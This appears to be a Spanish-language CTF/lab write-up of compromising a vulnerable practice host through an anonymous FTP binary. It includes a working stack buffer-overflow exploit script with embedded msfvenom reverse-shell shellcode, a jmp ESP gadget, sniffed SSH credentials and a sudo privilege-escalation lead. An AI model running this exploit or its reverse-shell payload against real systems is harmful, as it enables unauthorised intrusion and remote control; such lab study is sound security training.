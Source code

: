 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.100.7 LPORT=5555 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscábamos en este caso: ``
`8049d55` tiene que estar en little endian así que le damos la vuelta en el código

Vamos a realizar un `exploit.py` para realizar esto:
```python
#!/usr/bin/python3

import socket

offset = 112
before_eip = b"A"*offset

eip = b"\x55\x9d\x04\x08" # 8049d55 jump ESP

shellcode = b""
shellcode += b"\xdb\xd8\xd9\x74\x24\xf4\xb8\x74\xc6\xd0\xaa"
shellcode += b"\x5b\x29\xc9\xb1\x12\x31\x43\x17\x03\x43\x17"
shellcode += b"\x83\x9f\x3a\x32\x5f\x6e\x18\x44\x43\xc3\xdd"
shellcode += b"\xf8\xee\xe1\x68\x1f\x5e\x83\xa7\x60\x0c\x12"
shellcode += b"\x88\x5e\xfe\x24\xa1\xd9\xf9\x4c\xf2\xb2\x9e"
shellcode += b"\x89\x9a\xc0\x5e\x84\xe9\x4c\xbf\x16\x6b\x1f"
shellcode += b"\x11\x05\xc7\x9c\x18\x48\xea\x23\x48\xe2\x9b"
shellcode += b"\x0c\x1e\x9a\x0b\x7c\xcf\x38\xa5\x0b\xec\xee"
shellcode += b"\x66\x85\x12\xbe\x82\x58\x54"

after_eip = b"\x90"*32 + shellcode # ESP

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.100.5", 9898))
s.send(payload)
s.close()
```

En la maquina [[192.168.100.7(Nagini)]] con socat deberemos configurar el renvio de paquetes



Una vez tenemos la shell en el directorio de `/root` encontramos un archivo `notes.txt` que nos dice que han detectado una entrada de un usuario por ftp, asi que con `tcpdump -i eth0 port ftp or ftp-data`
Veremos el trafico hacia ese puerto pudiendo identificar un usuario y una contraseña `neville::bL!Bsg3k`

Con estas credenciales podemos acceder a la maquina via ssh
No nos permite enumerar permisos de sudo con `sudo -l` asi que buscaremos permisos SUID con `find / -perm -4000 2>/dev/null`

Vemos que tiene SUID en sudo, en entonces vamos a ver la versión de este con `sudo --version` y vemos que es la versión 1.8.27

Buscamos en Google información sobre este y encontramos un exploit en GitHub
`https://github.com/worawit/CVE-2021-3156`
